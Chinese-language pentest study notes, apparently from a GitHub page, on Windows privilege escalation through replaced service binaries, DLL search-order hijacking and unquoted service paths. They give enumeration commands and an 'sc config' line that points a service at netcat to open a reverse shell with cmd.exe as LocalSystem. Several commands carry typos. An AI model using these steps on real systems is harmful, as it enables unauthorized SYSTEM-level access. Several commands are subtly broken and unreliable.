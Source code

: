 # 劫持服务文件提权

## Windows替换服务二进制文件提权 
原理：有时用户安装软件作为 window 服务时，可能会将权限给到最大（对所有文件含有读写权限）并且其他用户或者用户组对其含有修改权，例如安装 mysql 时的管理员权限，低权限用户可能会替换服务软件导致权限提升
**查看运行中的服务**
使用 GUI 界面，win+r 后输入 services. Msc 进入服务列表
使用 powershell 查看
`Get-CimInstance -ClassName win32_serivce | Select Name,State,PathName | where-Object {$_.State -like 'Runnning'}`
`accessckh administrators -c *`   查看用户组下所有服务
`access ckh users -c *`
`accesschk.exe -uwcqv "users"  * `     查看user组可读写的服务
`net start | find "服务名称"  `  查看指定的服务名称有没有启动
`sc qc kdc  `    查看服务信息，kdc为服务名称  ，通过查看服务信息获取为系统权限的服务进行修改。
`sc config kdc binpath= "c:\temp\nc.exe -nv 192.168..200 3344 -e cmd.exe"`
`sc config kdc obj=".\LocalSystem" password=""`
`net start kdc`
*当使用网络登录 (如 WinRM 或绑定 shell)时，Get-CimInstance 和 Get-Service 在使用非管理用户查询服务时将导致“permission denied”错误。使用交互式登录 (如 RDP)可以解决这个问题*
 ^db8a4c
**获得可疑服务应用时，然后查看他们的权限**
`icalcls "c:\abc.exe"`
查看可执行文件的权限，F（完全权限），R（可读），X（可执行）, 获得可读可写权限时，替换二进制文件
也可以使用 powershell 中的 `Get-Acl` 获取目标权限列表
**生成病毒文件**
使用 kali 中跨平台编译器
`x86_64-w64-mingw32-gcc 病毒软件.c -o output.exe`
**重启服务**
有时修改完目标服务软件，然后重启服务，这时有可能没有权限，一般管理员才有权限操纵服务开启关闭
可以查看此服务是否是开机自动开启
`Get-CimInstance -ClassName win32_service | Select Name,StartMode | Where-Object {$_.Name -like 'mysql'}`
如果是 `Auto`，则可以重启主机运行病毒软件
`Whoami /priv `查能干什么看当前用户权限



## Windows劫持服务 DLL 提权
有时没有权限修改服务对应的 exe 文件，即没有写权限
可以劫持 DLL
有两种方法：
第一：劫持服务应用使用的 DLL（需要对于 DLL 的修改权限）同替换服务二进制文件提权
第二：劫持 windows 的 DLL search order（DLL 搜索顺序）
*DLL search order 是由微软实现的，因为大量的 DLL 劫持向量，并确保 DLL 更难以劫持。下面的清单显示了取自 Microsoft 文档的标准搜索顺序*
`1. The directory from which the application loaded.`
`2. The system directory.`
`3. The 16-bit system directory.`
`4. The Windows directory. `
`5. The current directory.`
`6. The directories that are listed in the PATH environment variable.`
`  Listing 56 - Standard DLL search order on current Windows versions`
**寻找可以服务程序**
**使用 procmon 64. Exe 查看进程**
了解服务使用的 DLL，但是要查看 DLL 需要管理员权限，所以可以将服务安装到本地进行测试
*使用 procmon 后可能信息过于庞大，使用 filter 过滤想要的服务*
**确定出现 NAME NOT FOUND 错误，这可以作为突破点**
`$env:path `  查看环境变量
**依据 DLL 搜索顺序，注入同名 DLL，最后重启服务**
`Restart-Service 服务名`


  
## Windows错误的服务路径提权
如果该文件的路径包含一个或多个空格，并且没有用引号括起来，则可能会成为特权升级攻击的机会
条件：对于服务的主目录或者子目录可以修改
该示例使用未加引号的服务二进制路径 C:\Program Files\My Program\My service \service. Exe。当 Windows 启动该服务时，由于路径中的空格，它将使用以下顺序尝试启动可执行文件。
`  C:\Program.exe`
`  C:\Program Files\My.exe`
`  C:\Program Files\My Program\My.exe`
`  C:\Program Files\My Program\My service\service.exe`
**找到含有空格路径的服务名称**
获取服务进程
`Get-CimInstance -ClassName win32_service | Select Name,State,PathName `
**快速获取没有加双引号的服务路径**
`wmic service get name,pathname | findstr /i /v "c:\Windows\\" | findstr /i /v "“"`
**利用空格截取，在目标目录插入注入软件**
**重启服务**
